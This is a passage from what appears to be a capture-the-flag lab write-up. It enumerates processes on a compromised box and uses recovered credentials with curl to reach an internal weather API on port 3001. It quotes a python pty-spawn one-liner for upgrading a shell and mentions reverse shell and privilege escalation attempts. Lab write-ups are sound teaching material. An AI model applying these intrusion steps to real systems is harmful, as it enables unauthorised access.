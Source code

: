 ```text
_httpd       414  0.0  0.0  21748  1656 ?     I    10:22AM 0:00.63 /bin/sh /usr/local/scripts/processes.sh 
_httpd       422  0.0  0.0  19992  1656 ?     S    10:22AM 0:00.22 /bin/sh /usr/local/scripts/uptime.sh 

...snipped extra users attepts at reverse shells and privesc...

_httpd     18685  0.0  0.0  35460  2296 ?     I     9:02PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr
_httpd     20969  0.0  0.0  35460  2296 ?     I     9:02PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr
_httpd     21048  0.0  0.0  19884  1520 ?     O    12:41AM 0:00.00 ps -auxw 
_httpd     22683  0.0  0.0  35460  2332 ?     I    12:17AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr

...snipped more extra metagaming stuff...

root         419  0.0  0.0  19780  1584 ttyE0 Is+  10:22AM 0:00.00 /usr/libexec/getty Pc constty 
root         413  0.0  0.0  19780  1584 ttyE1 Is+  10:22AM 0:00.00 /usr/libexec/getty Pc ttyE1 
root         389  0.0  0.0  23792  1584 ttyE2 Is+  10:22AM 0:00.00 /usr/libexec/getty Pc ttyE2 
root         433  0.0  0.0  19784  1584 ttyE3 Is+  10:22AM 0:00.00 /usr/libexec/getty Pc ttyE3
```

There was a process run by the `r.michaels` user that seemed to be running another instance of the weather.lua, on port 3001.

Note: from others users attempts from the process output I saw one that said `python3.7 -c import pty;pty.spawn("/bin/sh")`. You may be able to use this to upgrade your shell. I didn't notice this until after I was done, and it would have been metagaming anyways!

```text
$ curl http://localhost:3001
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   199  100   199    0     0  66333      0 --:--:-- --:--:-- --:--:-- 66333
<html><head><title>401 Unauthorized</title></head>
<body><h1>401 Unauthorized</h1>
/: <pre>No authorization</pre>
<hr><address><a href="//localhost:3001/">localhost:3001</a></address>
</body></html>
```

I tried using curl to get the local page at 3001 and got a "No Authorization" error.

```text
$ curl -u webapi_user:iamthebest http://localhost:3001
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   386  100   386    0     0   125k      0 --:--:-- --:--:-- --:--:--  125k
<!doctype html>
<html>
  <head>
    <title>Index</title>
  </head>
  <body>
    <p><h3>Weather Forecast API</h3></p>
    <p><h4>List available cities:</h4></p>
    <a href="/weather/forecast?city=list">/weather/forecast?city=list</a>
    <p><h4>Five day forecast (London)</h4></p>
    <a href="/weather/forecast?city=London">/weather/forecast?city=London</a>
    <hr>
  </body>
</html>
```
